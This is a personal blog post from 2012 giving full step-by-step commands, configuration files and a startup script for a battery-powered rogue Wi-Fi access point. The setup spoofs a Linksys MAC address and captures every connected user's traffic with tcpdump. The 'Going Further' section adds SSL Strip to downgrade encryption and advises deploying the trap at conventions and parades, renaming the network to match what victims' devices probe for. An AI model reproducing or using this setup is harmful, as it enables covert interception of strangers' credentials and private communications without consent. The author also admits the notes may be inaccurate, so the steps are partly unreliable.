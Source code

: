 ```yaml
---
layout: splash
title: "Mobile Hacking"
date: 2012-05-16 00:00:00 -0700
categories: Blog Misc
permalink: /:title.html
---
```

I have always loved wireless security.  It is just such an easy target.  The only issue that I have had is that I was restricted to carrying around a laptop and I just didn’t like the idea of having to operate the software while I was out.  So I came up with this neat little COMPLETELY mobile wireless hacking/trap solution.  Here is what you will need.

## Equipment

1. an Alix board, CF, and enclosure
2. two ALPHA USB Wireless cards
3. a cell phone that you can tether to
4. mobile power solution

## NOTES

I have written this very quickly and this may not be entirely accurate.  Although the tests that I have done did work this post has been put together using loose notes that I made through my testing.  I may (one day) return to this and tidy it up and add more detail, however I set out to do what I wanted and I wish to move on to newer projects.

## Instructions
1.     To start build your Alix system.  I built mine with Debian and I found a GREAT tutorial on how to get it loaded on a CF for your Alix board here -> http://www.youtube.com/watch?v=6VPsgR4pMik  Install the most basic packages to to run the system, we will add the other stuff later.
2.     Once you have Debian installed on the CF and the board put together go ahead and start  it up.  Connect to the Alix board with a serial connection using 38400 baud, or 9600 if you didn’t change it in the last step.
3.     Log in to Debian using root and your password
4.     rm -f /etc/udev/rules.d/*_persistent-net.rules
5.     rm -f /etc/udev/rules.d/*_persistent-net-generator.rules
6.     reboot and connect the two USB WLAN cards
7.     Once the system is back up and running log in again with root
8.     install the following packages using the next command
9.     apt-get install wpasupplicant bridge-utils wireless-tools tcpdump ssh
10.    change the file /etc/network/interfaces to look like this (obviously use your wlan interfaces)
```
# Used by ifup(8) and ifdown(8). See the interfaces(5) manpage or
# /usr/share/doc/ifupdown/examples for more information.
auto lo
iface lo inet loopback
allow-hotplug eth0
iface eth0 inet dhcp
iface wlan1 inet dhcp
wpa-ssid "iPhone"
wpa-mode managed
wpa-conf /root/Rogue-Sniff/conf/iphone.conf
wpa-psk nodule5958
```
11.    Now we will need to install a bunch more stuff to get the necessary tools running
12.    apt-get install apt-get install build-essential libssl-dev subversion check install iw
13.    svn co http://trac.aircrack-ng.org/svn/trunk aircrack-ng
14.    Make, check install, and then run airodump-ng-oui-update
15.    Time to get the FakeAP up and running
16.    apt-get install dhcp3-server
17.    update-rc.d sic-dhcp-server remove
18.    cp /etc/dhcp/dhcpd.conf /etc/dhcp/dhcpd.conf.bak
19.    vi /etc/dhcp/dhcpd.conf and make it similar to this
```
ddns-update-style ad-hoc;
default-lease-time 600;
max-lease-time 7200;
subnet 10.1.2.0 netmask 255.255.255.0 {
option subnet-mask 255.255.255.0;
option broadcast-address 10.1.2.255;
option routers 10.1.2.1;
option domain-name-servers 8.8.8.8;
range 10.1.2.100 10.1.2.150;
}
```
20.    airmon-ng start wlan0
21.    airbase-ng -e “ESSID” -c 9 mon0
22.    ifconfig at0 up
23.    ifconfig at0 10.1.2.1 netmask 255.255.255.0
24.    route add -net 10.1.2.0 netmask 255.255.255.0 gw 10.1.2.1
25.    dhcpd -cf /etc/dhcpd/dhcpd.conf -pf /var/run/dhcpd.pid at0
26.    Now you have an AP up and running for the sniffing but you know no one will use it unless you have it providing internet access
27.    Connect the Debian box to your cell phone (tethering) so that you can provide internet access to others on the go
28.    Create the file iPhone.conf and put the WPA/WPA2 settings in to tether to your phone
```
network={
ssid="iPhone"
key_mgmt=WPA-PSK
psk=(put your hex in here -> wpa_passphrase [SSID] [passphrase])
}
```
29.    Test out the connection by running the following
30.    wpa_supplicant -i wlan1 -B -c iphone.conf
31.    Get IP Tables running by creating the following script
```
#!/bin/sh
PATH=/usr/sbin:/sbin:/bin:/usr/bin
#
# delete all existing rules.
#
iptables -F
iptables -t nat -F
iptables -t mangle -F
iptables -X
# Always accept loopback traffic
iptables -A INPUT -i lo -j ACCEPT
# Allow established connections, and those not coming from the outside
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
iptables -A INPUT -m state --state NEW -j ACCEPT
iptables -A FORWARD -i wlan1 -o at0 -m state --state ESTABLISHED,RELATED -j ACCEPT
# Allow outgoing connections from the LAN side.
iptables -A FORWARD -i at0 -o wlan1 -j ACCEPT
iptables -t nat -A PREROUTING -p tcp -i at0 --destination-port 80 -j REDIRECT --to-port 8080
# Masquerade.
iptables -t nat -A POSTROUTING -o wlan1 -j MASQUERADE
# Don't forward from the outside to the inside.
iptables -A FORWARD -i wlan1 -o wlan1 -j REJECT
# Enable routing.
echo 1 > /proc/sys/net/ipv4/ip_forward
```
32.    If that is all working for you create a bash script with the following (with values that will work for your network)
```
#! /bin/bash
# bring up the rogue and start sniffing
cd /
# change the mac to a Linksys AP
/usr/bin/macchanger --mac=00:06:25:3E:BD:93 wlan0
/usr/bin/macchanger -r wlan1
echo "connecting to phone"
/sbin/wpa_supplicant -i wlan1 -B -c /root/iphone.conf
sleep 45
echo "getting ip address"
/sbin/dhclient wlan1
/usr/local/sbin/airbase-ng --essid hotspot -c 11 wlan0 &
sleep 15
/sbin/ifconfig at0 10.1.1.2 netmask 255.255.255.0
/sbin/route add -net 10.1.1.0 netmask 255.255.255.0 gw 10.1.1.2
/sbin/ifconfig at0 up
sleep 5
/usr/sbin/dhcpd -cf /etc/dhcp/dhcpd.conf
./root/Rogue-Sniff/iptables.sh
tcpdump -i wlan1 -s 0 -e -vv -XX link[25] != 0x80 -w /root/Rogue-Sniff/capture
```
33.    Add a line to execute this script at startup with rc.local
34.    Now that your CF card is at a point where you want it pull it off the Alix board and DD it to another Linux box so that you will never have to go through all this again.
35.    Connect your portable power source and out the door you go!  I used two 9V batteries that do power the setup, but I highly doubt that it would last long.

## Going Further

1.     When acting as an AP for people the main point here is to sniff traffic and record it.  What point would it be to record encrypted traffic?  Go a little further with this and throw SSL Strip into the mix!
2.     Very Useful Applications (if you have room on the CF)
  * python
  * python-twisted-web
  * kismet
  * nmap
  * telnet
  * fping
  * smbclient
  * curl
  * links
  * dnsutils
  * Tenable Nessus
  * Metasploit Framework
3.     The best places to take advantage of wireless networks is in highly populated areas that do not have hotspots.  Think of a convention or parade.  Some people really what to get on the net, and you could even highjack their broadcasts … say they are probing for “linksys” why not rename your SSID?

## Images of My Project
![alt text](/blog/assets/images/mobile/1.png "1")

![alt text](/blog/assets/images/mobile/2.png "2")

![alt text](/blog/assets/images/mobile/3.png "3")

![alt text](/blog/assets/images/mobile/4.png "4")